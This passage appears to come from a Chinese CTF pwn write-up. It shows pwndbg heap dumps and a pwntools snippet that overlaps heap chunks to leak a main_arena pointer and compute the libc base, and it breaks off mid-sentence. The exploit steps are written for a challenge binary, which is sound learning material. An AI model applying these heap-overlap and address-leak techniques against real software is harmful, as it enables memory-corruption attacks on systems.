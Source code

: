 ```
0x555555757060:	0x0a65656565656565	0x0000000000000181   
0x555555757070:	0x00007ffff7dd1ce8	0x00007ffff7dd1ce8
0x555555757080:	0x4242424242424242	0x4242424242424242
0x555555757090:	0x0000000000000030	0x0000000000000040
0x5555557570a0:	0x4343434343434343	0x4343434343434343
0x5555557570b0:	0x4343434343434343	0x4343434343434343
0x5555557570c0:	0x4343434343434343	0x4343434343434343
0x5555557570d0:	0x00007ffff7dd1b78	0x0000000000000091
0x5555557570e0:	0x00007ffff7dd1bf8	0x00007ffff7dd1bf8
0x5555557570f0:	0x0000000000000000	0x0000000000000000
0x555555757100:	0x0000000000000000	0x0000000000000000
0x555555757110:	0x0000000000000000	0x0000000000000000
0x555555757120:	0x0000000000000000	0x0000000000000061
0x555555757130:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757140:	0x0000000000000000	0x0000000000000000
0x555555757150:	0x0000000000000000	0x0000000000000000
0x555555757160:	0x0000000000000090	0x0000000000000000
0x555555757170:	0x0000000000000000	0x0000000000000000
0x555555757180:	0x0000000000000120	0x0000000000000060
0x555555757190:	0x0000000000000000	0x0000000000000000

```

- 然后进行几次内存分配重叠堆块,泄露`main_arena`的地址,


```python
add(0x30,3,'jcxp')
add(0x40,2,'jcxp')
add(0x20,0,'jcxp')
add(0x30,0,'jcxp')
add(0x30,0,'jcxp')

show(2)
p.recvuntil('flowers : ')

leak = u64(p.recv(6).ljust(8,'\x00'))
log.success(hex(leak))

libc_base = leak - libc.symbols['__malloc_hook'] - 0x10 - 0x58

log.success(hex(libc_base))
```
我这里使用的是通过覆盖`chunk2`的值为`main_arena+88`,此时的堆列表如下:

```
pwndbg> x /10gx 0x555555554000+0x2020a0
0x5555557560a0:	0x00005555557570e0	0x0000000000000030
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000555555757120	0x0000000000000040
0x5555557560d0:	0x00005555557570e0	0x0000000000000030
0x5555557560e0:	0x0000000000000000	0x0000000000000000
```
`chunk2`的内如如下
